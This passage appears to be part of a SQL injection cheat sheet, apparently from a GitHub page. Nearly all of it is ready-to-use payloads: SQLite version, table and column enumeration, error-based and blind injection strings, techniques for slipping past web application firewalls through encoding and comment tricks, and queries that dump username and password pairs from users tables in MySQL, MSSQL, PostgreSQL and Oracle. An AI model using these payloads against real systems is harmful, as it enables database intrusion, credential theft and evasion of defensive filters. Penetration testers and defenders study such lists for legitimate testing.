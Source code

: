   - SQLite:
    - Version: `parameter=1' UNION SELECT sqlite_version(),NULL,NULL--`
    - List tables: `parameter=1' UNION SELECT group_concat(name),NULL,NULL FROM sqlite_master WHERE type='table'--`
    - List columns: `parameter=1' UNION SELECT sql,NULL,NULL FROM sqlite_master WHERE name='table_name'--`
    - Error-based: `parameter=1' AND 1=CAST((SELECT sqlite_version()) AS int)--`
    - Time-based blind: `parameter=1' AND (SELECT CASE WHEN (SELECT substr(name,1,1) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%' LIMIT 1)='a' THEN randomblob(100000000) ELSE 1 END)--`
    - Boolean blind: `parameter=1' AND substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 0,1),1,1)='a'--`

- **WAF Bypass Techniques**
  - Space alternatives:
    - Comment: `SELECT/**/username/**/FROM/**/users`
    - Tabs/newlines: `SELECT[TAB]username[TAB]FROM[TAB]users`
    - Parentheses: `SELECT(username)FROM(users)`
  - Case manipulation: `SeLeCt UsEr FrOm DuAl`
  - String concatenation:
    - MySQL: `CONCAT('SEL','ECT')`
    - Oracle: `'SEL'||'ECT'`
    - MSSQL: `'SEL'+'ECT'`
  - Comment variations:
    - `-- comment`
    - `/* comment */`
    - `/*! MySQL-specific */`
  - Encoding:
    - URL encoding: `%53%45%4C%45%43%54` (SELECT)
    - Double URL encoding: `%2553%2545%254C%2545%2543%2554`
    - Hex encoding: 
      - MySQL: `0x53454c454354` (SELECT)
      - MSSQL: `CHAR(0x53)+CHAR(0x45)+CHAR(0x4c)+CHAR(0x45)+CHAR(0x43)+CHAR(0x54)`

- **Advanced Exploitation Techniques**
  - Retrieve multiple rows in one shot:
    - MySQL: `parameter=1' UNION SELECT 1,GROUP_CONCAT(username,':',password SEPARATOR '\n'),3 FROM users--`
    - MSSQL: `parameter=1' UNION SELECT 1,STRING_AGG(username+':'+password, CHAR(10)),3 FROM users--`
    - PostgreSQL: `parameter=1' UNION SELECT 1,STRING_AGG(username||':'||password, CHR(10)),3 FROM users--`
    - Oracle: `parameter=1' UNION SELECT 1,LISTAGG(username||':'||password, CHR(10)) WITHIN GROUP (ORDER BY username),3 FROM users--`
  - Blind exploitation with binary search:
    - Length detection: `parameter=1' AND LENGTH((SELECT password FROM users WHERE username='admin'))=5--`
    - Character extraction: `parameter=1' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>90--`
  - Second-order injection:
    - Insert malicious input that gets stored in DB
    - Payload activates when used in subsequent queries
    - Example: store `admin'--` as username, might bypass authentication checks later
